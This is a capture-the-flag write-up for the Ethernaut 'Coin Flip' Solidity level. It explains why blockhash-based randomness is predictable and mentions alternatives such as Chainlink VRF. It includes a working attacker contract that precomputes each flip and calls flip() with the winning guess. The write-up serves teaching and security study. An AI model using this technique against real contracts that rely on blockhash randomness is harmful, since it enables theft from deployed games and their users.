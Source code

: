 # Coin Flip

To complete this level we will have to guess the correct outcome of the coin flip 10 times in a row.

## Code Breakdown

[The Smart Contract's Code can be seen here.](CoinFlip.sol)

```solidity
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

This contract's has 3 uint256 variables:

- consecutiveWins: public variable, this will keep track of our current streak of correct guesses.
- lastHash: internal variable, this will keep track of the last calculated "hash"
- FACTOR: internal variable, a big number that will be used in calculating the outcome of the coin flip.

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
This contract only consists of one main function `flip()`. It determines the outcome of a **pseudo-random** coinflip with the help of the latest `block number` hash, using the following formula that generates either 1 or 0: 
```solidity
uint256(blockhash(block.number - 1)) / FACTOR;
```
Another important check that we can notice is this condition:
```solidity
if (lastHash == blockValue) {
      revert();
    }
```
This checks keeps track of the latest hash calculated and reverts if identical. This will stop us from sending 10 transactions at a time in the same block with the same guess and getting them all correct.

### The problem with randomness in the blockchain 

Generating random numbers in solidity can be tricky.
One of the popular means of achieving on-chain randomness is `Block-hashing`, at first it seems that the coinflip is indeed random but since blockchain data is public and the hashes are deterministic, everyone gets to see the block number and calculate the same hash, malicious miners can even modify block headers or choose not to publish blocks in order to influence the resulting hashes.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number) or other solutions such as [RANDAO](https://github.com/randao/randao), [provable.xyz](https://provable.xyz/)

## Level Completion

We can get the block number and hash from console using [web3.eth.getBlock](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getblock) :
```js
>  (await web3.eth.getBlock()).hash
<· "0x5820215401f0405a39d3a4e1a33eadb46ec4ff30fa3649d004d465c5b69c1db6"
```
but trying to calculate the coinflip then calling `flip()` from our console using web3js will not work consistently because the transactions may take multiple blocks to be confirmed and mined. This will cause our blockhash to be outdated.

We will create a minimalistic smart contract that mimics the same logic and make it call `flip()` with the correct guess.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipHack {
    //address of the deployed game instance
    address addr = 0x7D35C1ecb804b7ac13D13DC8E0362B208b1478Cd;

    function hack() public returns (bool){
        CoinFlip cf = CoinFlip(addr);
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        return cf.flip(side); // call to flip() function.
    }
}

// We need to define the game instance interface so we can call its functions from our smart contract

interface CoinFlip {
    function flip(bool _guess) external returns (bool); 
}
```
We can now compile, deploy and interact with our smart contract using [Remix IDE](https://remix.ethereum.org/), then calling the `hack()` function 10 times.